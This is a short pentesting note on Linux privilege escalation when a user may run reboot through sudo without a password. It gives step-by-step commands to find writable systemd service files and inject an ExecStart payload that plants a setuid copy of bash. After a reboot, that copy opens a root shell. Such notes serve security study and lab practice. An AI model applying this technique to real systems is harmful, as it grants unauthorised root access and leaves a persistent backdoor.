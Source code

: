 ```yaml
---
title: Sudo Reboot Privilege Escalation
description: Sudo reboot commands might be vulnerable to privilege escalation (PrivEsc).
tags:
    - Privilege Escalation
refs:
date: 2023-02-05
draft: false
---
```


## Investigation

```bash
sudo -l

(ALL) NOPASSWD: /usr/sbin/reboot
```

If we can execute **"reboot"** command as root, we can escalate to privileges.

<br />

## Exploitation

### 1. Find Service Config Files Which Are Writable

We need to look for the system service config file which are writable.

```bash
find / -writable -name "*.service" 2>/dev/null

/etc/systemd/system/example.service
```

### 2. Insert a Payload

If we find a writable file, we can inject a payload into **Service.ExecStart**.

```bash
# /etc/systemd/systm/example.service
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'cp /bin/bash /home/<username>/bash; chmod +xs /home/<username>/bash'

[Install]
WantedBy=multi-user.target
```

### 3. Reboot and Get a Root Shell

Now reboot as root.

```bash
sudo /usr/sbin/reboot
```

After the system rebooted, the command in the ExecStart will be executed.  
Now we should get a root shell by executing the copied bash command.

```bash
/home/<username>/bash -p
```